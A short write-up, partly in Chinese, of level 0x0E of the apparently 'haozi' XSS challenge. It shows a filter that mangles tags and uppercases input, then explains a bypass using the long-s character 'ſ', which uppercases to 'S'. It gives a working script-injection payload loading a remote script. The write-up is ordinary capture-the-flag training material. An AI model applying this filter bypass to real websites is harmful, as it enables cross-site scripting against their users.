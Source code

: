 ![00D](/img/xss/haozi/00D.png)

# 0x0E

## server code:

```
function render (input) {
  input = input.replace(/<([a-zA-Z])/g, '<_$1')
  input = input.toUpperCase()
  return '<h1>' + input + '</h1>'
}
```

## 分析:

```
将<后的第一个字符变成了_字符,导致<script>变成<_script>,有个特殊ſ 字符,是古英语中的s的写法, 转成大写是正常的S。
```

## input code:

```
1.<ſcript src="https://xss.haozi.me/j.js"></script>


```
